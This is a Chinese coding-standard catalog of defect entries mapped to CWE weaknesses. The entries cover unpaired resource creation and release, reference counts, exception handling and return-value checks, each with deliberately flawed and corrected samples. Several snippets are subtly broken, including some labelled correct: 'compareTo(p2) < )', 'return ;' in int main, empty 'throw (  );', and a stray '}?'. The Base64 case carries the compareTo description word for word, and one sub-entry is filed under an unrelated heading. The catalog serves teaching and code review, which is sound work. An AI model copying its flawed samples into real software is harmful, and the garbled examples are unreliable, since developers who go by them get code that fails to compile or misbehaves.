  1.设置代码检查规则检测悬空指针或句柄： 使用静态分析工具检测悬空指针或句柄的使用，避免因资源关闭未配对导致的悬空指针问题。
  2.设置代码检查规则检测内存泄漏： 使用静态分析工具检测内存泄漏，确保所有动态分配的资源都被正确释放。
  3.设置代码检查规则检测资源创建和关闭配对： 使用静态分析工具检查fopen是否有对应的fclose，malloc是否有对应的free等。

**集成测试**
- 策略：
  1.监控资源使用情况： 在集成测试中，监控程序的资源使用情况，确保没有资源泄漏。例如，检查文件句柄数量、内存使用情况等。
  2.长时间运行测试： 通过长时间运行程序，观察资源使用情况，确保资源被正确释放，避免内存泄漏或句柄泄漏。
  3.测试异常情况： 在集成测试中，模拟系统资源不足或异常情况，确保资源管理逻辑在极端情况下仍能正确工作。
  4.性能测试： 通过性能测试，观察程序在高负载下的资源使用情况，确保资源创建和关闭配对，避免性能瓶颈。

**示例**
**案例1: 句柄创建和关闭未配对**
**语言: **C

**描述**
在风险代码中调用fopen打开句柄后，没有调用配对的fclose关闭句柄。

**案例分析**
在风险代码案例中，riskyFunction函数中使用fopen打开了一个文件，但在函数结束时使用了 free(file) 而不是 fclose(file)，导致文件没有被正确关闭。这会导致文件句柄未被释放，文件资源泄漏。如果程序多次调用riskyFunction，文件句柄的数量会不断增加，最终可能导致系统资源耗尽，程序无法正常运行。此外，如果文件未被关闭，文件内容可能不会被完全写入磁盘，导致数据丢失或损坏。

**反例**
```c
#include <stdio.h>
#include <stdlib.h>

void riskyFunction() {
    FILE* file = fopen("example.txt", "w"); // 创建资源：打开文件
    if (file == NULL) {
        // 处理打开失败的情况
        return;
    }
    // ... 其他代码
    // 错误：使用free来释放文件资源，而不是使用正确的fclose
    free(file);
}

int main() {
    riskyFunction();
    return 0;
}
```

**正例**
```c
#include <stdio.h>
#include <stdlib.h>

void correctFunction() {
    FILE* file = fopen("example.txt", "w"); // 创建资源：打开文件
    if (file == NULL) {
        // 处理打开失败的情况
        return;
    }
    // ... 其他代码
    fclose(file); // 正确关闭文件，释放资源
}

int main() {
    correctFunction();
    return 0;
}
```

**修复建议**
在调用fopen打开句柄，资源使用结束后，调用fclose关闭句柄资源。

**案例2: 句柄创建和关闭未配对**
**语言: **CPP

**描述**
在风险代码中调用fopen打开句柄后，没有调用配对的fclose关闭句柄。

**案例分析**
在风险代码案例中，riskyFunction函数中使用fopen打开了一个文件，但在函数结束时使用了 free(file) 而不是 fclose(file)，导致文件没有被正确关闭。这会导致文件句柄未被释放，文件资源泄漏。如果程序多次调用riskyFunction，文件句柄的数量会不断增加，最终可能导致系统资源耗尽，程序无法正常运行。此外，如果文件未被关闭，文件内容可能不会被完全写入磁盘，导致数据丢失或损坏。

**反例**
```cpp
#include <cstdio>
#include <cstdlib>

void riskyFunction() {
    FILE* file = fopen("example.txt", "w"); // 创建资源：打开文件
    if (file == nullptr) {
        // 处理打开失败的情况
        return;
    }
    // ... 其他代码
    // 错误：使用free来释放文件资源，而不是使用正确的fclose
    free(file);
}

int main() {
    riskyFunction();
    return 0;
}
```

**正例**
```cpp
#include <cstdio>
#include <cstdlib>

void correctFunction() {
    FILE* file = fopen("example.txt", "w"); // 创建资源：打开文件
    if (file == nullptr) {
        // 处理打开失败的情况
        return;
    }
    // ... 其他代码
    fclose(file); // 正确关闭文件，释放资源
}

int main() {
    correctFunction();
    return 0;
}
```

**修复建议**
在调用fopen打开句柄，资源使用结束后，调用fclose关闭句柄资源。

#### CWD-1198-000 资源创建和关闭未配对

#### CWD-1198-001 使用new申请内存后，使用不匹配的delete释放内存，导致未定义行为

#### CWD-1198-002 使用用户自定义的malloc接口申请内存后，使用不匹配的free接口释放内存，导致未定义行为

#### CWD-1198-003 混合使用C和C++内存申请/释放接口，导致未定义行为

---

# CWD-1199 管理资源的引用计数器未被正确使用

**描述**
管理资源的引用计数器未被正确使用是指在资源管理过程中，引用计数器未能正确地增加或减少。引用计数器用于跟踪资源被引用的次数，确保资源在不再被引用时被正确释放。如果引用计数器未被正确使用，可能导致资源泄漏或访问已释放资源的问题。建议使用RAII（Resource Acquisition Is Initialization）原则，通过类的构造函数获取资源，在析构函数中释放资源；或通过代码检查工具进行扫描。

**语言: **C,CPP

**严重等级**
提示

**cleancode特征**
安全,可靠,高效

**缺陷防护全景**
**软件实现设计**
- 策略：
  1.采用RAII（Resource Acquisition Is Initialization）原则： 在设计类或结构体时，确保资源的获取和释放与对象的生命周期绑定。例如，在C++中使用智能指针（如std::shared_ptr、std::unique_ptr）或自定义RAII类，确保资源在对象销毁时自动释放。
  2.封装资源管理： 将资源的引用计数器管理封装到类或函数中，避免直接操作裸指针或资源句柄。例如，创建一个资源管理类，封装引用计数器的增减操作。
  3.设计异常安全的引用计数器管理： 确保在资源管理过程中，即使发生异常，引用计数器也能被正确更新。例如，在C++中使用try-catch块，确保引用计数器在异常情况下仍能正确递减。

**编码**
- 策略：
  1.使用智能指针或资源管理工具： 在C++中，使用std::shared_ptr或std::unique_ptr管理资源，自动处理引用计数器的增减。
  2.确保引用计数器正确更新： 在每次资源被引用时，增加引用计数器；在每次资源被释放时，减少引用计数器，并在计数器为零时释放资源。
  3.避免手动管理引用计数器： 尽量减少手动操作引用计数器，改用智能指针或容器，减少出错的可能性。
  4.异常安全的代码： 确保在异常发生时，引用计数器仍然能够正确更新，避免资源泄漏或悬空指针问题。

**开发者测试**
- 策略：
  1.手动测试引用计数器： 在测试中，显式调用资源管理函数，确保引用计数器的行为符合预期。
  2.测试异常情况： 在测试中，模拟异常情况（如内存不足、资源被提前释放），确保引用计数器在异常情况下仍能正确更新

**代码Review**
- 策略：
  1.检查引用计数器的更新： 在代码审查过程中，检查所有资源的引用计数器是否在资源被引用和释放时被正确更新。
  2.检查异常处理： 确保在异常情况下，引用计数器仍然能够正确更新。例如，检查try-catch块中是否包含引用计数器的更新逻辑。
  3.检查智能指针或资源管理工具的使用： 确保智能指针或资源管理类被正确使用，避免手动管理引用计数器导致的错误。
  4.检查资源的有效性： 确保在引用计数器为零后，不再使用相关的句柄或指针，避免悬空指针问题。

**代码检查**
- 策略：
  1.设置代码检查规则检测悬空指针或句柄： 使用静态分析工具检测悬空指针或句柄的使用，避免因引用计数器未被正确更新导致的悬空指针问题。
  2.设置代码检查规则检测内存泄漏： 使用静态分析工具检测内存泄漏，确保所有动态分配的资源都被正确释放。
  3.设置代码检查规则检测引用计数器的正确性： 使用静态分析工具检查引用计数器的增减操作是否正确配对，避免计数器不一致。

**集成测试**
- 策略：
  1.监控资源使用情况： 在集成测试中，监控程序的资源使用情况，确保没有资源泄漏。例如，检查引用计数器的状态、内存使用情况等。
  2.长时间运行测试： 通过长时间运行程序，观察资源使用情况，确保引用计数器在高负载下仍能正确工作，避免资源泄漏或计数器不一致。
  3.测试异常情况： 在集成测试中，模拟系统资源不足或异常情况，确保引用计数器管理逻辑在极端情况下仍能正确工作。
  4.性能测试： 通过性能测试，观察程序在高负载下的引用计数器管理情况，确保资源被正确管理，避免性能瓶颈。

**示例**
**案例1: 内存资源的引用计数器未被正确使用**
**语言: **C

**描述**
风险代码中riskyFunction函数中使用createResource创建了一个资源对象，并直接使用free释放了资源，而没有通过releaseResource函数正确更新引用计数。

**案例分析**
在风险代码案例中，riskyFunction函数中使用createResource创建了一个资源对象，并直接使用free释放了资源，而没有通过releaseResource函数正确更新引用计数。这导致引用计数器未被递减，资源未被正确释放，可能引发资源泄漏或后续访问已释放资源的问题。此外，直接使用free释放资源可能导致资源状态不一致，影响程序的稳定性和正确性。

**反例**
```c
#include <stdio.h>
#include <stdlib.h>

typedef struct {
    int* data;
    int ref_count;
} Resource;

Resource* createResource() {
    Resource* res = (Resource*)malloc(sizeof(Resource));
    res->data = (int*)malloc(sizeof(int));
    res->ref_count = 1; // 初始化引用计数为1
    return res;
}

void releaseResource(Resource* res) {
    if (res != NULL) {
        res->ref_count--; // 递减引用计数
        if (res->ref_count == 0) {
            free(res->data);
            free(res);
        }
    }
}

void riskyFunction() {
    Resource* res = createResource();
    // ... 其他代码
    // 错误：未正确更新引用计数，直接释放资源
    free(res->data);
    free(res);
}

int main() {
    riskyFunction();
    return 0;
}
```

**正例**
```c
#include <stdio.h>
#include <stdlib.h>

typedef struct {
    int* data;
    int ref_count;
} Resource;

Resource* createResource() {
    Resource* res = (Resource*)malloc(sizeof(Resource));
    res->data = (int*)malloc(sizeof(int));
    res->ref_count = 1; // 初始化引用计数为1
    return res;
}

void releaseResource(Resource* res) {
    if (res != NULL) {
        res->ref_count--; // 递减引用计数
        if (res->ref_count == 0) {
            free(res->data);
            free(res);
        }
    }
}

void correctFunction() {
    Resource* res = createResource();
    // ... 其他代码
    // 正确：使用releaseResource函数正确更新引用计数
    releaseResource(res);
}

int main() {
    correctFunction();
    return 0;
}
```

**修复建议**
确保计数器正确更新。

#### CWD-1199-000 管理资源的引用计数器未被正确使用

#### CWD-1199-001 java线程池的队列是无界的容易导致OOM问题

**业界缺陷**

- [CWE-911: Improper Update of Reference Count](https://cwe.mitre.org/data/definitions/911.html)
---

# CWD-1204 忽略异常

**描述**
异常表示程序运行发生了错误，发生异常会中断程序的正常处理流程。不应该使用空的catch块忽略发生的异常，发生异常要么在catch块中对异常情况进行处理，要么将异常抛出，交由上层调用方进行处理。

**语言: **CPP,JAVA

**严重等级**
提示

**cleancode特征**
可维护

**缺陷防护全景**
**编码**
- 策略1：遵循编码规范
  不要通过一个空的catch块忽略异常。发生异常要么在catch块中对异常情况进行处理，要么将异常抛出，交由上层调用方进行处理。

**示例**
**案例1: 通过一个空的catch块忽略异常**
**语言: **JAVA

**描述**
使用空的catch块忽略发生的异常。

**反例**
```java
try {
    ...
} catch (SomeException ex) {
}
```

**正例**
```java
try {
    ...
} catch (SomeException ex) {
     log.error("some exception occur ...");
}
```

**修复建议**
发生异常时，将异常信息记录日志，方便后续问题分析。

#### CWD-1204-000 忽略异常

#### CWD-1204-001 异常未处理，空异常块

**业界缺陷**

- [CWE-1069: Empty Exception Block](https://cwe.mitre.org/data/definitions/1069.html)
---

# CWD-1205 抛出过于宽泛的异常

**描述**
方法抛出异常时，应该避免直接抛出基类异常（如Java中的Exception或Throwable），因为这些基类异常无法与异常发生的场景相关联，直接抛出基类异常会降低代码可读性。方法抛出的异常应该与方法本身的抽象层次相对应，这些异常可以是标准异常，也可以是业务层自定义的异常。另外，抛出的异常中应该包含理解该异常产生原因的所有信息。

**语言: **CPP,JAVA

**严重等级**
提示

**cleancode特征**
可维护

**缺陷防护全景**
**软件实现设计**
- 策略1：明确系统中的异常体系
  在软件设计阶段，制定明确的异常体系，对各种场景使用的异常类型进行明确定定义。

**编码**
- 策略1：遵循编码规范
  避免代码中的异常场景直接抛出基类异常；
  方法声明中避免直接声明抛出基类异常；
- 策略2：遵从产品内部设计的异常体系
  理解当前系统中定于的异常体系，掌握各种异常情况应该如何定义抛出的异常；

**代码检查**
- 策略1：静态分析工具
  配置静态代码分析工具来检测直接抛出基类异常的场景，确保代码在提交前通过这些工具的检查。

**示例**
**案例1: 直接抛出基类异常**
**语言: **JAVA

**描述**
代码中的异常情况直接使用RuntimeException等基类异常。

**反例**
```java
public String getSomeInfo() {
    ...
    throw new RuntimeException("xxx");
}
```

**正例**
```java
public String getSomeInfo() throws MyBizException{
    ...
    throw new MyBizException("xxx");
}
```

**修复建议**
结合业务逻辑自定义业务逻辑异常，并在合适的异常情况下抛出对应的业务异常。

#### CWD-1205-000 抛出过于宽泛的异常

**业界缺陷**

- [CWE-397: Declaration of Throws for Generic Exception](https://cwe.mitre.org/data/definitions/397.html)
---

# CWD-1206 抛出的异常为对象指针

**描述**
用throw语句抛出异常的时候，会构造一个临时对象，称为“异常对象（exception object）”。这个异常对象的生命周期在C++语言中很明确：异常对象在throw时被构造；在某个捕获它的catch语句以throw以外的方式结束（即没有重新抛出）时，或者指向这个异常的std::exception_ptr对象被析构时析构。抛出指针，会使回收被抛出对象的责任不明确。捕获异常的地方是否有义务对该指针进行delete操作，取决于该对象是如何分配的（例如静态变量，或者用new分配），以及这个对象是否被共享了。但是指针类型本身并不能表明这个对象的生命周期以及所有权，也就无法判断是否应该delete。如果应该delete却没有做，会造成内存泄漏；如果不该delete却做了，会造成重复释放。

**语言: **CPP

**严重等级**
一般

**cleancode特征**
可靠

**缺陷防护全景**
**编码**
- 策略1：遵循编码规范
  抛异常时，抛对象本身，而不是指向对象的指针

**示例**
**案例1: 抛出的异常为对象指针**
**语言: **CPP

**描述**
抛出异常时，没有抛出异常本身，而是抛出了异常对象的指针。

**反例**
```cpp
static SomeException exc1("reason 1");

try {
    if (SomeFunction()) {
        throw &exc1;                         // 不符合：这是静态对象的指针，不应该delete
    } else {
        throw new SomeException("reason 2"); // 不符合：这是动态分配的，应该delete
    }
} catch (const SomeException* e) {
    delete e;                                // 不符合：这里不能确定是否需要delete
}
```

**正例**
```cpp
try {
    if (SomeFunction()) {
        throw SomeException("reason 1");
    } else {
        throw SomeException("reason 2");
    }
} catch (const SomeException& e) {
    ...                                      // 符合：这里可以确定不需要delete
}
```

**修复建议**
抛异常时， 抛异常对象本身。

#### CWD-1206-000 抛出的异常为对象指针

---

# CWD-1207 异常携带的信息缺失

**描述**
异常提供了详细的错误信息，包括错误类型、发生位置以及可能的原因。这些信息对于调试和日志记录非常有价值，有助于快速定位和解决问题。如果主动抛出异常时，未将关键信息封装进异常中，比如对异常类型进行转换时，丢失原始异常中的有价值的信息，例如异常类型、调用堆栈等信息，会给问题定位、运维等带来不必要的麻烦。

**语言: **CPP,JAVA

**严重等级**
提示

**cleancode特征**
可维护

**缺陷防护全景**
**编码**
- 策略1：遵循编码规范
  在进行异常类型转换操作时，要将原始异常封装进新异常中，如果原始异常不封装进新异常中，需要将原始异常信息完整记录到日志中。
  原始异常含敏感信息时，可先对敏感信息进行匿名化处理。

**代码检查**
- 策略1：静态分析工具
  对异常转换场景进行检查，判断原始异常信息是否有丢失。

**示例**
**案例1: 异常类型转换，原始异常信息丢失**
**语言: **JAVA

**描述**
代码中将IOException转换为业务自定义异常时，原始异常信息丢失。

**反例**
```java
public void loadConfigFile() throws MyBizDomainException {
    try {
        doSomething();
    } catch (IOException ex) {
        throw new MyBizDomainException("Lost original exception message");
    }
}
```

**正例**
```java
public void loadConfigFile() throws MyBizDomainException {
    try {
        doSomething();
    } catch (IOException ex) {
        // 新异常中携带原始异常信息
        throw new MyBizDomainException(ex.getMessage(), bizExceptionHandle(ex));
    }
}
```

**修复建议**
异常类型转换操作时，要将原始异常封装进新异常中，或者时原始异常要记录日志，总之要保证原始异常信息不丢失。

#### CWD-1207-000 异常携带的信息缺失

#### CWD-1207-001 异常场景下未按照实际处理结果

#### CWD-1207-002 捕获异常后，重新抛出自定义异常，没有记录日志或者新异常没有携带原异常的信息

---

# CWD-1208 构造方法直接抛出异常

**描述**
禁止构造方法直接抛出异常，因为构造方法的主要目的是初始化对象，而不是处理错误。如果构造方法直接抛出异常，那么在创建对象时就会遇到错误，这可能会导致程序的不稳定性。在 Java 中，构造方法不能直接抛出异常，但可以在构造方法中调用其他方法，这些方法可以抛出异常。如果必须在构造方法中处理错误，可以使用其他方法来处理，或者在构造方法中使用 try-catch 块来捕获和处理异常。此外，如果在构造方法中捕获了异常，那么在捕获异常的代码块中，应该有一个明确的处理异常的逻辑，而不是简单地捕获异常并继续执行。总的来说，禁止构造方法直接抛出异常是为了保持代码的稳定性和可读性。

**语言: **CPP,JAVA

**严重等级**
提示

**cleancode特征**
可维护

**示例**
**案例1: 构造方法中抛出异常**
**语言: **CPP

**描述**
如果在构造异常对象时或初始化异常对象的赋值表达式时引发异常，则该异常将优先于即将引发的异常。这可能与开发者的期望不一致。

**反例**
```cpp
class E {
public:
    E() {} // 假设构造函数不会抛异常
};
try {
    if (...) {
        throw E(); // 正确
    }
}
class E2 {
public:
    E2()
    {
        throw 1;
    }
};
try {
    if (...) {
        throw E2(); // 错误，E2的构造函数会抛异常
    }
}
```

**正例**
```cpp
class E {
public:
    E() {} // 假设构造函数不会抛异常
};
try {
    if (...) {
        throw E(); // 正确
    }
}
```

**修复建议**
确保 throw 语句的赋值表达式本身不应导致引发异常

#### CWD-1208-000 构造方法直接抛出异常

#### CWD-1208-001 构造函数直接抛出异常，如果是单例类的场景下，会出现空指针

#### CWD-1208-002 静态块抛出异常，如果是单例类的场景下，会出现空指针

---

# CWD-1209 析构方法直接抛出异常

**描述**
从析构函数中抛出异常会导致std::terminate。

**语言: **CPP

**严重等级**
提示

**cleancode特征**
可维护

**缺陷防护全景**
**编码**
- 策略1：遵循编码规范

**示例**
**案例1: 析构方法中抛出异常**
**语言: **CPP

**描述**
析构函数默认自带noexcept属性，如果析构函数抛出异常，会直接导致`std::terminate`。

**反例**
```cpp
class A {
public:
    ...
    ~A()
    {
        throw std::exception(); // 不符合
    }
};
int main()
{
    A a;
    return ;
}?
```

**正例**
```cpp
class A {
public:
    ...
    ~A()
    {
        try {
            throw std::exception(); // 符合
        } catch (const std::exception &ex) {
            ...
        }
    }
    void Foo()
    {
        throw std::exception();
    }
};
```

**修复建议**
如果一定要在析构函数中抛异常，应在析构函数内处理完此异常，不能抛出函数之外。

#### CWD-1209-000 析构方法直接抛出异常

---

# CWD-1210 在main函数启动前或终止后抛出异常

**描述**
在 main 函数启动前或终止后抛出异常会无法被捕获。

**语言: **CPP

**严重等级**
提示

**cleancode特征**
可维护

**缺陷防护全景**
**编码**
- 策略1：遵循编码规范

**示例**
**案例1: main 函数启动前或终止后抛出异常**
**语言: **CPP

**描述**
在 main 函数启动前或终止后抛出异常会无法被捕获

**反例**
```cpp
class C
{
    public :
    C ( )
    {
        throw (  ); // Non-compliant – thrown before main starts
    }
    ~C ( )
    {
        throw (  ); // Non-compliant – thrown after main exits
    }
};
C c; // An exception thrown in C  s constructor or destructor
// will cause the program to terminate, and will not be
// caught by the handler in main
int main ( … )
{
    try
    {
        // program code
        return ;
    }
    // The following catch-all exception handler can only catch exceptions
    // thrown in the above program code
    catch ( … )
    {
        // Handle exception
        return ;
    }
}
```

**正例**
```cpp
class C
{
    public :
    C ( )
    {
        throw (  ); 
    }
    ~C ( )
    {
    }
};

int main ( … )
{
    C c; 
    try
    {
        // program code
        return ;
    }
    catch ( … )
    {
        // Handle exception
        return ;
    }
}
```

**修复建议**
避免在 main 函数启动前或终止后抛出异常

#### CWD-1210-000 在main函数启动前或终止后抛出异常

---

# CWD-1212 函数返回类型不一致

**描述**
函数中每个分支返回的对象类型和函数声明的返回值类型不一致，无法使用统一的逻辑来处理返回值，会降低代码的可读性、可维护性。

**语言: **C,CPP,PYTHON,JAVASCRIPT,TYPESCRIPT

**严重等级**
一般

**cleancode特征**
可靠

**缺陷防护全景**
**编码**
- 策略1：
  使用统一的返回值类型

**示例**
**案例1: 同一个函数内，不同分支返回不同类型的数据会导致逻辑错误难以发现**
**语言: **TYPESCRIPT

**描述**
同一个函数内，不同分支返回不同类型的数据会导致逻辑错误难以发现

* **编译时无法检测错误**
* **运行时容易发生类型错误**
* **代码可维护性差**
* 测试困难：需要为每种返回类型编写测试用例；边界情况难以覆盖全面

```typescript
// 调用者需要处理多种类型
const result = getValueSomehow();

// 需要类型检查，代码变得复杂
if (typeof result === 'number') {
    // 处理数字
} else if (typeof result === 'string') {
    // 处理字符串
} else if (result === null) {
    // 处理null
}
```

**反例**
```typescript
function processData(isValid) {
    if (isValid) {
        return { data: "success", code: 200 };  // 对象
    } else {
        return "错误信息";  // 字符串
    }
}

const result = processData(false);
// 调用者需要检查类型，否则容易出错
if (typeof result === 'string') {
    console.log('错误:', result);
} else {
    console.log('数据:', result.data);  // 如果返回字符串，这里会出错
}
```

**正例**

- 方案一：使用联合类型（TypeScript）```typescript
function getValue(condition: boolean): number | string {
    if (condition) {
        return 42;
    } else {
        return "hello"; // 明确声明返回类型
    }
}

// 调用时进行类型检查
const result = getValue(true);
if (typeof result === 'number') {
    // 安全使用
}
```

- 方案二：返回统一结构```typescript
interface Result<T> {
    success: boolean;
    data?: T;
    error?: string;
}

function getValue(condition: boolean): Result<number> {
    if (condition) {
        return { success: true, data: 42 };
    } else {
        return { success: false, error: "条件不满足" };
    }
}
```

- 方案三：使用异常处理错误情况```typescript
function getValue(condition: boolean): number {
    if (condition) {
        return 42;
    } else {
        throw new Error("条件不满足");
    }
}
```


**修复建议**
1. 保持函数返回类型一致
2. 使用明确的错误处理机制
3. 在静态类型语言中充分利用类型系统
4. 在动态语言中添加类型注解和文档
5. 考虑使用 Result 模式或 Option 模式

#### CWD-1212-000 函数返回类型不一致

#### CWD-1212-001 java中方法返回不能包括内部可变集合

#### CWD-1212-003 返回类型过于宽泛如Object类型

---

# CWD-1213 缺少状态码或错误码

**描述**
发生异常或错误时，未通过提过状态码、抛出异常、返回错误码等方式来指示该异常场景，导致程序逻辑错误。产品遇到错误，但没有提供状态代码或返回值来指示已发生错误。

**语言: **C,CPP,JAVA

**严重等级**
一般

**cleancode特征**
可靠

**缺陷防护全景**
**编码**
- 策略1：
  明确异常、错误场景默认处理场景，保证异常、错误场景与正常业务场景做好区分。

**示例**
**案例1: 发生异常时，最终返回状态未与正常状态区分**
**语言: **JAVA

**描述**
以下示例中，servlet的doPost()方法中代码片段，即使发生错误，服务端仍返回“200 OK”（默认值）。

**反例**
```java
try {

    // Something that may throw an exception.
    doSomething();
} catch (Exception ex) {
    logger.error("Caught: " + ex.toString());
    return;
}
```

**正例**
```java
try {

    // Something that may throw an exception.
    doSomething();
} catch (Exception ex) {
    logger.error("Caught: " + ex.toString());
    throw new MyBizDomainException(ex.getMessage(), bizExceptionHandle(ex));
}
```

**修复建议**
发生异常时，不要在异常处理分支中忽略异常，要通过返回值、抛出异常等方式将异常传递给外部调用方。

#### CWD-1213-000 缺少状态码或错误码

#### CWD-1213-001 异常场景处理由于未区分错误场景，造成后续处理异常

**业界缺陷**

- [CWE-392: Missing Report of Error Condition](https://cwe.mitre.org/data/definitions/392.html)
---

# CWD-1214 不正确的状态码或错误码

**描述**
函数返回错误的返回值或状态码，这些返回值或状态码并不表示执行的真实结果，导致产品根据错误的结果修改其行为。这可能会导致不可预测的行为。如果函数用于做出安全关键的决策或提供安全关键的信息，则错误的状态代码可能会导致产品认为某个操作是安全的或正确的，即使它不是。

**语言: **C,CPP,JAVA

**严重等级**
一般

**cleancode特征**
可靠

**缺陷防护全景**
**编码**
- 策略1：
  保证对函数返回值进行检查时，不同的场景使用不同的处理逻辑。

**示例**
**案例1: 不同的检查逻辑返回值相同**
**语言: **JAVA

**描述**
以下示例中，在文件删除操作失败时，仅记录一条日志，但是函数最终返回值未区分文件是否成功被删除。

**反例**
```java
public boolean deleteFile() {
    File someFile = new File("someFileName.txt");
    // Do something with someFile
    if (!someFile.delete()) {
       logger.error("Delete file failed!");
    }
	return true;
}
```

**正例**
```java
public boolean deleteFile() {
    File someFile = new File("someFileName.txt");
    // Do something with someFile
    if (!someFile.delete()) {
       logger.error("Delete file failed!");
	   return false;
    }
	return true;
}
```

**修复建议**
根据函数的含义，函数返回值与真实结果一致。

#### CWD-1214-000 不正确的状态码或错误码

#### CWD-1214-001 接口返回未按照http状态码规范返回

**业界缺陷**

- [CWE-393: Return of Wrong Status Code](https://cwe.mitre.org/data/definitions/393.html)
---

# CWD-1216 函数的返回值未检查

**描述**
产品未检查方法或函数的返回值，这可能导致其无法检测意外状态和情况。备注：程序员通常有两种错误假设："此函数调用绝不会失败"和"此函数调用失败无关紧要"。若攻击者能够迫使函数失败或返回非预期值，后续程序逻辑便可能引发漏洞，因为产品此时处于程序员预设之外的状态。例如，若程序调用函数来降低权限却未检查返回码以确保权限已成功撤销，则程序将继续以更高权限运行。

**语言: **C,CPP,JAVA

**严重等级**
一般

**cleancode特征**
可靠

**缺陷防护全景**
**编码**
- 策略1：
  保证对函数返回值进行检查时，不同的场景使用不同的处理逻辑。

**示例**
**案例1: 未检查文件删除操作的返回值**
**语言: **JAVA

**描述**
以下示例中，在文件删除操作中，会通过返回值来指示本次操作是否成功，该方法调用后必须根据返回值对资源操作失败的场景进行防护处理。

**反例**
```java
public void deleteFile() {
    File someFile = new File("someFileName.txt");

    // Do something with someFile
    someFile.delete();
}
```

**正例**
```java
public void deleteFile() {
    File someFile = new File("someFileName.txt");

    // Do something with someFile
    if (!someFile.delete()) {
        // Handle failure to delete the file
        ...
    }
}
```

**修复建议**
资源操作类方法（例如File.delete()）调用后必须根据返回值对资源操作失败的场景进行防护处理。

#### CWD-1216-000 未检查返回值

#### CWD-1216-001 外部接口需要判断返回值，根据返回值进行下一步操作

#### CWD-1216-002 文件类操作需要用户判断其返回值，根据返回值进行下一步动作

#### CWD-1216-003 在调用安全函数sprintf_s之后，未校验返回值，可能导致格式化错误或缓冲区溢出

#### CWD-1216-004 在调用安全函数 memcpy_s 时，未检查其返回值，可能导致目标缓冲区未被正确初始化或部分初始化，引发缓冲区溢出或未定义行为

#### CWD-1216-005 忽略方法的返回值

#### CWD-1216-006 memset_s返回值没有校验

**业界缺陷**

- [CWE-252: Unchecked Return Value](https://cwe.mitre.org/data/definitions/252.html)
---

# CWD-1217 函数的返回值检查不当

**描述**
检查返回值，但未能正确检查函数的返回值（如：检查条件逻辑错误或检查场景不全），可能会使其无法检测错误或异常情况，导致错误情况未处理。

备注：重要且常用的函数会返回关于其操作成功与否的值。这将提醒程序是否需要处理由该函数引发的任何错误。

**语言: **C,CPP,JAVA

**严重等级**
一般

**cleancode特征**
可靠

**缺陷防护全景**
**编码**
- 策略1：
  保证对函数返回值进行检查时，不同的场景使用不同的处理逻辑。

**示例**
**案例1: compareTo返回的特定值**
**语言: **JAVA

**描述**
此代码调用了compareTo或compare方法，并检查返回值是否是特定的值，如1或-1。在调用这些方法时，应该只检查结果的符号，而不是任何特定的非零值。虽然许多compareTo和compare方法只返回-1、或1，但其中一些可能会返回其他值。

**反例**
```java
public class RvCheckComparetoForSpecificReturnValue implements Comparable<RvCheckComparetoForSpecificReturnValue> {
    private int age;

    public RvCheckComparetoForSpecificReturnValue(int age) {
        this.age = age;
    }

    @Override
    public int compareTo(RvCheckComparetoForSpecificReturnValue other) {
        return this.age - other.age;
    }

    private void badPractice() {
        RvCheckComparetoForSpecificReturnValue p1 = new RvCheckComparetoForSpecificReturnValue(2);
        RvCheckComparetoForSpecificReturnValue p2 = new RvCheckComparetoForSpecificReturnValue(25);
        if (p1.compareTo(p2) == -1) { // [BAD] RV_CHECK_COMPARETO_FOR_SPECIFIC_RETURN_VALUE
            System.out.println("p1 is smaller than p2");
        }
    }
}
```

**正例**
```java
public class RvCheckComparetoForSpecificReturnValue implements Comparable<RvCheckComparetoForSpecificReturnValue> {
    private int age;

    public RvCheckComparetoForSpecificReturnValue(int age) {
        this.age = age;
    }

    @Override
    public int compareTo(RvCheckComparetoForSpecificReturnValue other) {
        return this.age - other.age;
    }

    private void goodPractice() {
        RvCheckComparetoForSpecificReturnValue p1 = new RvCheckComparetoForSpecificReturnValue(2);
        RvCheckComparetoForSpecificReturnValue p2 = new RvCheckComparetoForSpecificReturnValue(25);
        if (p1.compareTo(p2) < ) { // [GOOD] RV_CHECK_COMPARETO_FOR_SPECIFIC_RETURN_VALUE
            System.out.println("p1 is smaller than p2");
        }
    }
}
```

**修复建议**
判断compareTo或compare方法的返回值时，应该判断返回值是否大于、小于或等于，不应该判断返回值是否与特定值相同。

#### CWD-1217-000 返回值的检查条件错误

#### CWD-1217-001 逻辑判断错误

**业界缺陷**

- [CWE-253: Incorrect Check of Function Return Value](https://cwe.mitre.org/data/definitions/253.html)
---

# CWD-1218 未捕获异常

**描述**
抛出异常，但没有捕获它，则可能会导致程序崩溃或敏感信息暴露。

**语言: **CPP,JAVA

**严重等级**
一般

**cleancode特征**
可靠

**缺陷防护全景**
**编码**
- 策略1：
  保证函数声明中的异常已经被处理或明确交流上层调用函数处理。

**示例**
**案例1: Base64.decode操作的异常未处理**
**语言: **JAVA

**描述**
此代码调用了compareTo或compare方法，并检查返回值是否是特定的值，如1或-1。在调用这些方法时，应该只检查结果的符号，而不是任何特定的非零值。虽然许多compareTo和compare方法只返回-1、或1，但其中一些可能会返回其他值。

**反例**
```java
public void test(){ 
    byte[] b = Base64.decode("XXX");
}
```

**正例**
```java
public void test(){
    try {
        byte[] b = Base64.decode("XXX");
    }catch (IllegalArgumentException e){
        log.error("Decode base64 message failed");
    }
}
```

**修复建议**
Base64.decode需要捕获IllegalArgumentException或Exception异常

#### CWD-1218-000 未捕获异常

#### CWD-1218-001 未以左值引用的形式捕获异常

#### CWD-1218-002 java中定时任务线程池(ScheduledThreadPoolExecutor)，一定要在任务内部补获基类异常，否则会导致后续定时任务不执行

#### CWD-1218-003 java的timer场景的定制任务，一定要在任务内部补获基类异常，否则会导致后续定时任务不执行

#### CWD-1218-004 数据格式化异常，如日期格式化，数值格式化

#### CWD-1218-005 未确保意外的异常也被捕获

**业界缺陷**

- [CWE-248: Uncaught Exception](https://cwe.mitre.org/data/definitions/248.html)
---

# CWD-1220 捕获过于宽泛的异常

**描述**
在捕获异常时使用了过于宽泛的异常类型，如捕获了所有的异常或使用了基类Exception来捕获所有异常。这种做法可能会隐藏真正的异常，使得程序难以调试和维护，无法确定究竟是哪种异常导致了程序的错误。此外，这些代码有可能包含安全漏洞。为了避免这种错误，应该尽可能地使用特定的异常类型来捕获异常，而不是使用过于宽泛的异常类型。这样可以更加精确地捕获异常，也可以更好地处理异常情况。

**语言: **CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

**示例**
**案例1: 直接捕获基类异常**
**语言: **JAVA

**描述**
下述示例中，getSomeInfo()在发生异常时直接抛出RuntimeException，这样处理既不利于上层调用方通过异常类型理解异常发生原因，也不利于上层调用方分类处理各种底层异常。

**反例**
```java
public class Employee {
    ...
    public String getSomeInfo() {
        ...
